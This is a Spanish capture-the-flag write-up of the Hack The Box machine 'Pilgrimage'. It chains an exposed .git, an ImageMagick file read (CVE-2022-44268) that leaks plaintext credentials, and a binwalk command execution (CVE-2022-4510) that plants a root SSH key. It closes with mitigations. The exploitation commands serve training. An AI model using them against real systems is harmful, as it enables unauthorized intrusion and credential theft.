






# Pilgrimage

[{ .maquina-icono }](https://app.hackthebox.com/machines/Pilgrimage)

## Resumen

Máquina Linux centrada en una aplicación web de reducción de imágenes. El desarrollador deja
expuesto el directorio **`.git`**, que se descarga por completo y revela que el *backend* usa
**ImageMagick 7.1.0-49**, vulnerable a **CVE-2022-44268** (lectura arbitraria de ficheros): se
sube un PNG manipulado y, al procesarlo, el servidor incrusta el contenido de un fichero local
en la imagen de salida. Con esa lectura se recuperan las credenciales de **`emily`**, guardadas
en texto plano en la base de datos de la aplicación, y como se reutilizan, se entra por **SSH**.
La escalada a root abusa de `malwarescan.sh`, un script que corre como root y lanza **`binwalk -e`**
(versión 2.3.2, vulnerable a **CVE-2022-4510**) sobre cada imagen nueva de una carpeta: un PNG
malicioso logra **ejecución de comandos como root** y se planta una clave SSH.

## Reconocimiento

Primero, un ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.85.50: icmp_seq=1 ttl=63 time=54.5 ms
```

Un TTL cercano a 64 (63) indica una máquina **Linux**.

### Enumeración de puertos

```
nmap -p- --open -T4 --min-rate 5000 -Pn 10.129.85.50
```

```
22/tcp open  ssh
80/tcp open  http
```

Solo dos puertos. Detallamos versiones:

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 -Pn 10.129.85.50
```

```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
```

El servicio web redirige a `pilgrimage.htb`, así que añadimos el dominio al `/etc/hosts`:

```
echo "10.129.85.50    pilgrimage.htb" | sudo tee -a /etc/hosts
```

Tras ello ya carga la página.

## Enumeración

### Fuzzing: un `.git` expuesto

Enumeramos contenido de la web:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://pilgrimage.htb/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.txt,.html -ac -c
```

```
.git                    [Status: 301]
.git/HEAD               [Status: 200]
.git/index              [Status: 200]
.git/config             [Status: 200]
assets                  [Status: 301]
dashboard.php           [Status: 302]
index.php               [Status: 200]
login.php               [Status: 200]
register.php            [Status: 200]
...
```

El desarrollador ha dejado expuesto gran parte de su **`.git`**. Lo descargamos entero:

```
git-dumper http://pilgrimage.htb/.git git/
```

En el código se ve que el *backend* usa **ImageMagick 7.1.0-49** (un binario `magick` incluido en
el propio repositorio) para reducir las imágenes, y que los datos de la aplicación se guardan en
una **base de datos SQLite**.

**ImageMagick 7.1.0-49** arrastra la **CVE-2022-44268** (lectura arbitraria de ficheros): permite
subir un PNG manipulado para que el servidor incruste el contenido de un fichero local (por
ejemplo `/etc/passwd`) dentro de la imagen procesada.

## Explotación

Usamos la prueba de concepto de [imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc).
El mecanismo es:

1. **Generación del *payload***: un script en Python crea un PNG legítimo al que se le inyecta un
   bloque de metadatos de texto (`tEXt`) con un puntero al fichero que queremos leer.
2. **Procesamiento en el servidor**: al subir la imagen, el *backend* la pasa por ImageMagick
   (*resize*), que al parsear el fichero lee de forma involuntaria el fichero objetivo.
3. **Exfiltración**: ImageMagick incrusta el contenido leído en un perfil de metadatos
   (`Raw profile type`) de la imagen de salida.
4. **Decodificación**: se descarga la imagen procesada y se extrae el contenido en hexadecimal.

Descargamos la imagen devuelta por la web y la leemos:

```
identify -verbose imagen.png
```

El bloque `Raw profile type` trae el fichero leído en hexadecimal; al decodificarlo obtenemos,
por ejemplo, `/etc/passwd`, confirmando la lectura arbitraria:



Con esa misma técnica leemos la **base de datos SQLite** de la aplicación (su ruta la conocemos
por el código del `.git`). La tabla `users` guarda las credenciales en **texto plano**:

- **Usuario:** `emily`
- **Contraseña:** `abigchonkyboi123`

Como es habitual la reutilización de credenciales, probamos por **SSH**:



Funciona. Leemos la flag de usuario:

```
cat user.txt
```



```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Ya como `emily`, vemos que **root** está ejecutando continuamente un script:



```
/bin/bash /usr/sbin/malwarescan.sh
```

Leemos el script:



Lo importante: vigila la carpeta **`/var/www/pilgrimage.htb/shrunk/`** con `inotifywait` y, cada
vez que aparece un archivo nuevo, ejecuta **`binwalk -e`** sobre él **como root**.

La versión de `binwalk` es **2.3.2**, afectada por la **CVE-2022-4510** (ejecución de comandos):
un fichero manipulado con una firma concreta hace que, al extraerlo con `-e`, `binwalk` ejecute un
*plugin* malicioso con los privilegios de quien lo lanza (aquí, **root**).

Generamos una clave SSH y un PNG malicioso que, al ser analizado por `binwalk`, escribe nuestra
clave pública en `/root/.ssh/authorized_keys`:

```
# 1) Generamos la clave
ssh-keygen -t ed25519 -f ed25519_gen -N ""

# 2) Generamos el PNG malicioso (PoC de la CVE-2022-4510)
python3 walkingpath.py ssh root.png ed25519_gen.pub

# 3) Lo copiamos a la carpeta vigilada
cp root.png /var/www/pilgrimage.htb/shrunk/
```

En cuanto el script procesa el PNG, nuestra clave queda autorizada para root. Entramos por SSH:

```
ssh -i ed25519_gen root@10.129.85.50
```



```
cd /root && cat root.txt
```

```
ROOT FLAG -> [censurada]
```

## Mitigación

- **No exponer el directorio `.git`** en producción: filtra el código fuente completo, rutas,
  credenciales y versiones de dependencias. Bloquearlo en el servidor web o no desplegarlo.
- **Actualizar ImageMagick** para cerrar la **CVE-2022-44268** y, en general, no procesar ficheros
  subidos con versiones vulnerables ni confiar en los metadatos de las imágenes.
- **No guardar contraseñas en texto plano** y **no reutilizar credenciales** entre la web y el SSH.
- **Actualizar `binwalk`** (CVE-2022-4510) y, sobre todo, no ejecutar herramientas de análisis con
  `-e` como **root** sobre ficheros que un usuario sin privilegios puede dejar en una carpeta.
  Aplicar el **principio de mínimo privilegio** a las tareas automáticas.

## Qué he aprendido

- Un **`.git` expuesto** es un fallo enorme: da el código, las rutas internas y, con él, la versión
  exacta de las dependencias para buscar su CVE.
- La **CVE-2022-44268** de ImageMagick enseña que hasta "redimensionar una imagen" es *parsear*
  entrada no confiable: un simple *resize* acabó leyendo ficheros del sistema.
- La escalada no estaba en un `sudo` mal puesto, sino en **qué ejecuta una tarea de root y con qué
  herramienta**: un `binwalk -e` vulnerable sobre una carpeta escribible convierte "dejar un
  archivo" en ejecución como root.
